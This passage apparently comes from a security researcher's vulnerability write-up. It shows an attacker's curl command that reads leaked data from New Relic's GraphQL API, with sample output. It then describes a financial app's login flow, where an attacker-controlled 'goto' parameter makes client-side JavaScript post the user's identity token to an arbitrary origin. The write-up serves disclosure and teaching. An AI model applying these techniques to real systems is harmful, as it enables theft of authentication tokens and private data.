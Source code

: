 Then, the attacker can do the following from their machine:

```bash
curl -s -X POST 'https://api.eu.newrelic.com/graphql' \
    -H 'Content-Type: application/json' \
    -H 'Api-Key: {YOUR_NEW_RELIC_USER_API_KEY}' \
    --data-raw '{"query":"{ actor { account(id: 1337) { nrql(query: \"SELECT payloadSample FROM NrIntegrationError LIMIT 1\") { results } } } }"}'
```
Result:
```json
{
    "data": {
        "actor": {
            "account": {
                "nrql": {
                    "results": [{
                        "payloadSample": "{\"YOUR_RAW_JSON_DATA\":\"BUT THE LENGTH IS CAPPED AT 100 CHARS",
                        "timestamp": 1759439170940
                    }]
                }
            }
        }
    }
}
```

## The Vuln

This vulnerability occured in the login flow of of a sensitive financial application. 

The authentication URLs for this domain look like this:
```
https://auth.redacted.com/login?realm=%2Fcustomers&goto=https%3A%2F%2Facc-data.redacted.com%2Fweb-authorize%3Fresponse_type%3Dcode%26client_id%3DclientIdForFinancial%26redirect_uri%3Dhttps%3A%2F%2Facc-data.redacted.com%2Fauth%2Fcallback%26scope%3Dopenid%2520iid%2520uci%2520profile%2520card.account&channel=channel&successMessage=false
```

The `goto` parameter controls where the `idsToken` will be sent in the following JS:
```js
  , KM = async (e, t, r, n) => {
    const i = new URLSearchParams(e)
      , {url: o} = In.get("wsLoginUrl");
    try {
        const a = new URL(i.get("goto"))
          , s = await ke.post("".concat(a.origin).concat(a.pathname), {
            idsToken: t,
            responseType: "code",
            clientId: a.searchParams.get("client_id"),
            scope: a.searchParams.get("scope"),
            redirectUri: a.searchParams.get("redirect_uri")
        }, {
            withCredentials: !0
        });
        window.location.href = GM(s.data.callbackURL)
    } catch (a) {
        if (r === "login") {
            const s = new URL("".concat(o, "authapp-error"));
            typeof n < "u" && n !== pe.SITE && s.searchParams.append("channel", ZM[n]),
            window.location.href = s.toString()
        } else
            i.append("successMessage", "true"),
            window.location = "/login?".concat(decodeURIComponent(i.toString()))
    }
```